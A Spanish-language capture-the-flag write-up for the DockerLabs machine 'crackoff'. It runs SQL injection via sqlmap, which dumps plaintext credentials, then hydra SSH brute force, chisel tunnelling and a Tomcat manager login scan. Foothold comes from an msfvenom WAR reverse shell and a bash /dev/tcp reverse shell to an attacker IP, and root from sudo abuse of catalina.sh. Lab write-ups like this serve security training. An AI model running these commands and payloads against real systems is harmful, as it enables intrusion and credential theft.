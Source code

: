 Maquina crackoff de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Dificil

![dock](./imagenes/dock.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Mon Aug 26 20:58:30 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-08-26 20:58:30 -03 for 9s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3d:fc:bd:41:cb:81:e8:cd:a2:58:5a:78:68:2b:a3:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNuJZkQSLJmcZX14n7uNiUBZ/Li3VabQ8/HRKIsPXb/9CZmDhjdBLLRgvjL9NpgVgU2gGEFTSkljIn0SGcgaoIY=
|   256 d8:5a:63:27:60:35:20:30:a9:ec:25:36:9e:50:06:8d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINZLckodawlUx1KSiq+zaADv0w1jbQwrlE98GYdEY/jH
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: CrackOff - Bienvenido
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 26 20:58:39 2024 -- 1 IP address (1 host up) scanned in 9.35 seconds

```

Solo vemos el puerto 80 y 22 abierto, por lo que continuaremos al navegador.

#### PUERTO 80:

![80](./imagenes/80.png)

Luego de ver un rato, entré en "Iniciar Sesión" y vi un panel de login que es vulnerable a inyeccion sql, por lo que ejecutaremos lo siguiente para poder ver la base de datos:

```css
sqlmap -u "http://172.17.0.2/login.php" --forms --batch --dbs --time-sec=1 --dump
```

```css
+----+---------------------------+------------------+
| id | password                  | username         |
+----+---------------------------+------------------+
| 1  | password123               | rejetto          |
| 2  | alicelaultramejor         | tomitoma         |
| 3  | passwordinhack            | alice            |
| 4  | supersecurepasswordultra  | whoami           |
| 5  | estrella_big              | pip              |
| 6  | colorcolorido             | rufus            |
| 7  | ultramegaverypasswordhack | jazmin           |
| 8  | unbreackroot              | rosa             |
| 9  | happypassword             | mario            |
| 10 | admin12345password        | veryhardpassword |
| 11 | carsisgood                | root             |
| 12 | badmenandwomen            | admin            |
+----+---------------------------+------------------+
```

Como vemos, tenemos varios usuarios, por lo que nos lo guardaremos en un `user.txt` y `pass.txt`. Luego ejecutaremos hydra con ambos apuntando al puerto 22 de ssh.

```css
hydra -L user.txt -P pass.txt ssh://172.17.0.2 -vV
```

```css
[22][ssh] host: 172.17.0.2   login: rosa   password: ultramegaverypasswordhack
```

# INTRUSION

Teniendo creedenciales del ssh nos conectaremos y listo. `ssh rosa@172.17.0.2`.

# ESCALADA DE PRIVILEGIOS

### ROSA

Luego de buscar un rato, se me ocurre ver si hay puertos abiertos localmente, para esto simplemente ejecutamos `netstat -punta` y listo.

```css
rosa@e95886b6af7e:~$ netstat -punta
(No info could be read for "-p": geteuid()=1002 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8005          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 172.17.0.2:22           172.17.0.1:41524        ESTABLISHED -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
rosa@e95886b6af7e:~$ 
```

Aca lo unico que nos importa es que `el puerto 8080 esta abierto`, por lo que nos bajamos el [chisel](https://github.com/jpillora/chisel/releases/tag/v1.10.0) y nos lo pasamos a rosa, ahora tendremos que ejecutar esto:

```css
MAQUINA ATACANTE:
./chisel server --reverse -p 1111
```

```css
MAQUINA VICTIMA
./chisel client 192.168.1.101:1111 R:socks
```

Ahora solo modificamos el archivo `/etc/proxychains` y ponemos al final:

```css
socks5 127.0.0.1 1080
```

Una vez hecho esto, ya tendremos conectividad con el puerto 8080, por lo que tendremos que entrar a `127.0.0.1:8080` desde el navegador:

#### PUERTO 8080:

![8080](./imagenes/tomcat.png)

Como vemos hay un tomcat, pero si queremos ir a "manager app" nos pide contraseña, por lo que haremos lo siguiente:

```css
proxychains msfconsole
```

Una vez iniciada ejecutaremos lo siguiente:

```css
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 127.0.0.1
set RPORT 8080
set USER_FILE /home/kali/users.txt
set PASS_FILE /home/kali/pass.txt
set TARGETURI /manager/html
```

Con `USER_FILE` le pasaremos nuestra wordlist anterior de usuarios, y con `PASS_FILE` la de contraseñas, una vez hecho todo esto nos deberia encontrar la siguiente contraseña:

```css
[+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra
```

Por lo que ya tendremos una contraseña y usuario, ahora simplemente nos queda enviarnos una reverse shell como el usuario "tomcat", para esto entraremos a "manager app" con nuestras credenciales, y en nuestra maquina local nos crearemos un .war malicioso, para hacerlo ejecutamos:

```css
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=9090 -f war -o rev.war
```

Y esto lo cargaremos en la página en la parte que dice "Seleccione archivo WAR a cargar ", y luego apretamos en desplegar.

Ahora volvemos a nuestra maquina atacante y abriremos la msfconsole, luego ejecutaremos todo esto:

```css
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST 192.168.1.101
set LPORT 9090
exploit
```

una vez ejecutado todo esto, entraremos desde el navegador a `http://127.0.0.1:8080/rev/`, esperamos un poco y recibiremos la reverse shell.

### TOMCAT

Estando dentro de la msfconsole nos enviamos una reverse shell para poder dejar de usarla y estar mas cómodos, simplemente escucharemos con netcat en el puerto que queramos(en mi caso el 9090) y luego en msfconsole ejecutamos:

```css
bash -i >& /dev/tcp/192.168.1.101/9090 0>&1
```

Ahora hacemos el tratemiento de la tty, que seria esto:

```css
script /dev/null -c bash #damos al enter y presionamos ctrl+Z
stty raw -echo;fg # damos al enter y escribimos "reset xtern" y volvemos a dar al enter
export TERM=xterm && export SHELL=bash
stty rows 33 columns 128
```

Ahora ejecutamos un `sudo -l` y vemos lo siguiente:

```css
Matching Defaults entries for tomcat on e95886b6af7e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tomcat may run the following commands on e95886b6af7e:
    (ALL) NOPASSWD: /opt/tomcat/bin/catalina.sh
```

viendo que podemos ejecutarlo como root y que encima lo podemos modificar, haremos que le de permisos SUID a bash. Para hacer esto modificamos la primer linea y cambiamos `sh` por `bash` y en la segunda un `chmod u+s /bin/bash`, una vez hecho esto ejecutamos el script como root y luego ponemos `bash -p`. *Ya somos root*:

![root](./imagenes/root.png)

Gracias por leer.....